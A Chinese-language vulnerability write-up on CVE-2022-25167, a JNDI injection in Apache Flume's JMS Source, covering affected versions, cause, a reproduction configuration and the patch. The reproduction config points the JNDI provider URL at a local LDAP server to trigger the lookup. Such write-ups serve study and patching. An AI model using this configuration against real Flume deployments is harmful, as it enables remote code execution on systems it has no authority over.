



# CVE-2022-25167 Apache Flume JNDI注入
## 影响版本
Apache Flume-Apache >=1.4.0&&<=1.9.0
## 环境搭建
http://archive.apache.org/dist/flume/1.9.0/
## 原理分析
### JMS Source
Flume支持JMS Source,其中可以配置JMS的获取来源,其中可以配置JNDI相关参数,同时没用作相关过滤,导致造成JNDI注入.  
[官方文档](https://flume.apache.org/FlumeUserGuide.html#jms-source)  
   
[相关源码](https://github.com/apache/flume/blob/trunk/flume-ng-sources/flume-jms-source/src/main/java/org/apache/flume/source/jms/JMSSource.java)
## 漏洞复现
配置文件:  
```
a1.sources = r1
a1.channels = c1
a1.sinks=k1
a1.sources.r1.type = jms
a1.sources.r1.channels = c1
a1.sources.r1.initialContextFactory = com.sun.jndi.ldap.LdapCtxFactory
a1.sources.r1.connectionFactory = p2zlah
a1.sources.r1.providerURL = ldap://127.0.0.1:1389
a1.sources.r1.destinationName = BUSINESS_DATA
a1.sources.r1.destinationType = QUEUE
a1.sinks.k1.type = logger

# Use a channel which buffers events in memory
a1.channels.c1.type = memory
a1.channels.c1.capacity = 1000
a1.channels.c1.transactionCapacity = 100
```  


## 补丁
限制了只能使用java协议  
  
https://github.com/apache/flume/commit/dafb26c